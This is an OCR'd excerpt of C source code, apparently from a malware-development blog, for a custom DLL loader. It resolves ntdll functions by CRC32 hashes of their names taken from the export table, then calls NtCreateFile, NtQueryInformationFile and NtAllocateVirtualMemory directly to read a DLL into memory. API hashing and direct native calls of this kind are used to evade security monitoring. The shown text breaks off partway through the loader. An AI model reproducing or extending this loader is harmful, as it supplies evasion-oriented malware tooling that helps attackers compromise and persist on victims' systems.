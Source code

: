 ```c
    PIMAGE_EXPORT_DIRECTORY export_directory = (PIMAGE_EXPORT_DIRECTORY)((DWORD_PTR)base + nt_headers->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
    unsigned long *p_address_of_functions = (PDWORD)((DWORD_PTR)base + export_directory->AddressOfFunctions);
    unsigned long *p_address_of_names = (PDWORD)((DWORD_PTR)base + export_directory->AddressOfNames);
    unsigned short *p_address_of_name_ordinals = (PWORD)((DWORD_PTR)base + export_directory->AddressOfNameOrdinals);

    for(unsigned long i = 0; i < export_directory->NumberOfNames; i++) {
        LPCSTR p_function_name = (LPCSTR)((DWORD_PTR)base + p_address_of_names[i]);
        unsigned short p_function_ordinal = (unsigned short)p_address_of_name_ordinals[i];
        unsigned long p_function_address = (unsigned long)p_address_of_functions[p_function_ordinal];

        if(function_hash == HASH(p_function_name))
            return (void *)((DWORD_PTR)base + p_function_address);
    }
    return NULL;
}
int main() {

    NTSTATUS status;
    UNICODE_STRING dll_file;
    WCHAR w_file_path[100] = L"\\??\\\\C:\\Development\\OTE22_BLOGS_MALDEV\\C CODE BLOG\\myloader\\custom_msg.dll";
    void *p_ntdll = get_ntdll();
    void *p_rtl_init_unicode_string = get_proc_address_by_hash(p_ntdll, RtlInitUnicodeString_CRC32b);
    RtlInitUnicodeString_t g_rtl_init_unicode_string = (RtlInitUnicodeString_t)p_rtl_init_unicode_string;
    g_rtl_init_unicode_string(&dll_file, w_file_path);

    OBJECT_ATTRIBUTES obj_attrs;
    IO_STATUS_BLOCK io_status_block;
    InitializeObjectAttributes(&obj_attrs, &dll_file, OBJ_CASE_INSENSITIVE, NULL, NULL);

    HANDLE h_file = NULL;
    void *p_nt_create_file = get_proc_address_by_hash(p_ntdll, NtCreateFile_CRC32b);
    NtCreateFile_t g_nt_create_file = (NtCreateFile_t)p_nt_create_file;
    if((status = g_nt_create_file(&h_file, SYNCHRONIZE | GENERIC_READ, &obj_attrs, &io_status_block, 0, 0x0000080, 0x0000007, FILE_OPEN_IF, 0x0000020, 0x0000000, 0)) != 0x0)
        return -1;

    FILE_STANDARD_INFORMATION file_standard_info;
    void *p_nt_query_information_file = get_proc_address_by_hash(p_ntdll, NtQueryInformationFile_CRC32b);
    NtQueryInformationFile_t g_nt_query_information_file = (NtQueryInformationFile_t)p_nt_query_information_file;
    if((status = g_nt_query_information_file(h_file, &io_status_block, &file_standard_info, sizeof(FILE_STANDARD_INFORMATION), FileStandardInformation)) != 0x0)
        return -2;

    unsigned long long int dll_size = file_standard_info.EndOfFile.QuadPart;
    void *dll_bytes = NULL;
    void *p_nt_allocate_virtual_memory = get_proc_address_by_hash(p_ntdll, NtAllocateVirtualMemory_CRC32b);
    NtAllocateVirtualMemory_t g_nt_allocate_virtual_memory = (NtAllocateVirtualMemory_t)p_nt_allocate_virtual_memory;
    if((status = g_nt_allocate_virtual_memory(((HANDLE) -1), &dll_bytes, 0, &dll_size, MEM_COMMIT, PAGE_READWRITE)) != 0x0)
        return -3;

```
